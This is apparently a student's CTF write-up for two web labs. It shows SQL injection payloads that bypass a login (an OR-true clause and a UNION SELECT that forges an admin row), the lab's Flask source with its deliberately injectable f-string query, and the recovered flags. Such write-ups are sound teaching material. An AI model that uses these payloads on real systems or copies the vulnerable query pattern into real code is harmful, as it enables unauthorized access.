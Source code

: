 ```yaml
---
title: Simple Web 0x03(Lab - Log me in + Revenge)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x03(Lab - Log me in + Revenge)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8200/
Challenge: http://h4ck3r.quest:8201/

## Exploit - `SQLi`
* Payload → `') or ('1'='1') -- #`
SELECT * FROM admin WHERE (username='') or ('1'='1') -- #') AND (password='MTIz')

Flag: `FLAG{b4by_sql_inj3cti0n}`

## Revenge source code
:::spoiler code
```python!=
from flask import Flask, render_template, redirect, request, g, Response
import sqlite3

app = Flask(__name__)


def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/database.db')
        db.row_factory = sqlite3.Row
    return db


@app.before_first_request
def init_db():
    cursor = get_db().cursor()
    cursor.execute("""
    CREATE TABLE IF NOT EXISTS "admin" (
        "username"  TEXT NOT NULL,
        "password"  TEXT NOT NULL
    )
    """)
    cursor.execute("SELECT COUNT(*) as count FROM admin WHERE username='admin'")
    count = cursor.fetchone()['count']
    if count == 0:
        import secrets
        cursor.execute("INSERT INTO admin (username, password) VALUES (?,?)",
                       ('admin', secrets.token_urlsafe()))
    get_db().commit()


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()


@app.route("/")
def home():
    return render_template("index.html",
                           failed=request.args.get('failed') != None)


@app.route("/login", methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')

    if not username or not password:
        return redirect("/?failed")

    cur = get_db().execute(f"SELECT * FROM admin WHERE (username='{username}')")
    res = cur.fetchone()
    cur.close()

    if res['username'] == 'admin' and res['password'] == password:
        return "FLAG: FLAG{<REDACTED>}"

    return redirect("/?failed")



@app.route("/source")
def source():
    import re
    source_code = open(__file__).read()
    source_code = re.sub(r'FLAG{[^}\s]+}', 'FLAG{<REDACTED>}', source_code, 1)
    return Response(source_code, mimetype='text/plain')


if __name__ == '__main__':
    app.run(debug=True)

```
:::

## Exploit - `SQLi` + union syntax
1. Observe source code first
It must receive username and password together, or failed otherwise. Thus, we can not use previous payload.
2. Union syntax
Username Payload → `') union select 'admin', 'password' -- #`
Password → `password`
<font color="FF000">SELECT * FROM admin WHERE (username='') union select 'admin', 'password' -- #')</font>

Flag: `FLAG: FLAG{un10n_bas3d_sqli}`

